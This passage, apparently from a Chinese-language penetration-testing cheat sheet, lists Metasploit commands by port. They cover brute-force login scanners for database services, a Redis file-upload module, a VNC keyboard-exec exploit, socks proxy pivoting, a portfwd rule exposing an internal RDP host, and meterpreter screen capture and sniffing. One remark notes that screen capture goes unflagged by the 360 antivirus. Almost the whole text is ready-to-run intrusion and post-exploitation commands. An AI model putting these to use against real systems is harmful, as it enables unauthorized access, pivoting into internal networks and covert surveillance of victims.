 ```	
    exploit/multi/vnc/vnc_keyboard_exec

数据库：

port:1433 （Sqlserver）

    use auxiliary/scanner/mssql/mssql_login  

port:3306 (Mysql)

    auxiliary/scanner/mysql/mysql_login

port: 27017、27018 (Mongodb)

    auxiliary/scanner/mongodb/mongodb_login

port:6379 （Redis）

    auxiliary/scanner/redis/redis_login
    auxiliary/scanner/redis/file_upload

port:1521 (Oracle)

    search Oracle

port:5432 (PostgreSQL)

    search PostgreSQL

use auxiliary/server/socks4a  
proxychains设置socks4为上条设置的，即可在本地代理扫描, 目前msf已经支持 socks5 代理

### Msf端口转发portfwd
---

	portfwd add -L 0.0.0.0 4443 -p 3389 -r 192.168.2.100
	
将192.168.1.2.100内网转发到本地4443 port，流量大不好用

### Msf截屏(没被360拦没提示，或许有意外收获)
---

    meterpreter > use espia
    meterpreter > screengrab

### Msf嗅探
---
```
meterpreter > use sniffer
Loading extension sniffer...Success.
meterpreter > help
